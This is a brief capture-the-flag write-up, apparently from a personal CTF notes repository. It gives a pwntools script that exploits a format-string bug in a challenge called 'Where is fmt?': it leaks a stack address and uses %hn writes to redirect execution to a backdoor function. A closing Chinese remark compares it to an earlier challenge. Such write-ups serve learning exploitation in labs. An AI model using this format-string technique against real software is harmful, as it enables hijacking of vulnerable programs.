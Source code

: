 # Where is fmt?

```py
from pwn import *
context.arch="amd64"
p=remote("127.0.0.1","51264")
p.sendlineafter("nces.\n","%5$p")
ret=int(p.recvline(keepends=False),16)+0x22a1
backdoor=0x00401202
p.sendlineafter("nces.\n","%{}c%15$hn".format((ret & 0xffff)))
p.sendlineafter("nces.\n","%{}c%45$hn".format((backdoor & 0xffff)))
p.interactive()
```
去年[format_level3](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/moectf/2023/Pwn/format_level3.md)的降级版：本地和远程的args链竟然是一样的。去年两者不一样导致我盲调试调了好久